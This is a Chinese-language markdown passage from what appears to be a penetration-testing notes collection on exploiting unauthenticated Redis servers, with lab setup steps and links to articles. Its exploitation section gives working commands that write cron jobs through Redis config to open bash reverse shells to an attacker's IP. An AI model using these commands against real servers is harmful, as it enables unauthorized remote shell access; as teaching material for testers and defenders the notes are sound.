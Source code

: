 
## Redis

**文章**
- [细数 redis 的几种 getshell 方法](http://b1ue.cn/archives/318.html)

**未授权访问漏洞**
- 简述

    Redis 默认情况下，会绑定在 0.0.0.0:6379，如果没有进行采用相关的策略，比如添加防火墙规则避免其他非信任来源 ip 访问等，这样将会将 Redis 服务暴露到公网上，如果在没有设置密码认证（一般为空）的情况下，会导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。攻击者在未授权访问 Redis 的情况下，利用 Redis 自身的提供的config 命令，可以进行写文件操作，攻击者可以成功将自己的 ssh 公钥写入目标服务器的 `/root/.ssh` 文件夹的authotrized_keys 文件中，进而可以使用对应私钥直接使用 ssh 服务登录目标服务器、添加计划任务、写入 Webshell 等操作。

- 文章
    - [redis未授权访问漏洞利用总结](https://p0sec.net/index.php/archives/69/)
    - [Redis 未授权访问漏洞利用分析](https://hellohxk.com/blog/redis-unauthorized-vulnerability/)
    - [redis未授权访问与ssrf利用](https://www.kingkk.com/2018/08/redis%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E4%B8%8Essrf%E5%88%A9%E7%94%A8/)
    - [Hackredis Enhanced Edition Script](https://joychou.org/web/hackredis-enhanced-edition-script.html#directory092928099425939341)

- 搭建环境
    ```bash
    wget http://download.redis.io/releases/redis-3.2.0.tar.gz
    tar xzf redis-3.2.0.tar.gz
    cd redis-3.2.0
    make
    ```
    ```vim
    vim redis.conf

    # bind 127.0.0.1
    protected-mode no
    ```
    ```bash
    ./src/redis-server redis.conf
    ```

- 利用
    ```bash
    redis-cli -h <目标IP>
    > info   # 查看 redis 版本信息、一些具体信息、服务器版本信息等等:
    > CONFIG GET dir # 获取默认的 redis 目录
    > CONFIG GET dbfilename # 获取默认的 rdb 文件名
    ```

    **利用计划任务执行命令反弹 shell**

    在 redis 以 root 权限运行时可以写 crontab 来执行命令反弹 shell 先在自己的服务器上监听一个端口 `nc -lvnp 7999` 然后执行命令:
    ```bash
    > config set dir /var/spool/cron
    > set -.- "\n\n\n* * * * * bash -i >& /dev/tcp/192.168.1.1/7999 0>&1\n\n\n"
    > set x "\n* * * * * /bin/bash -i > /dev/tcp/192.168.72.129/7999 0<&1 2>&1\n"
    > config set dbfilename root
    > save
    ```
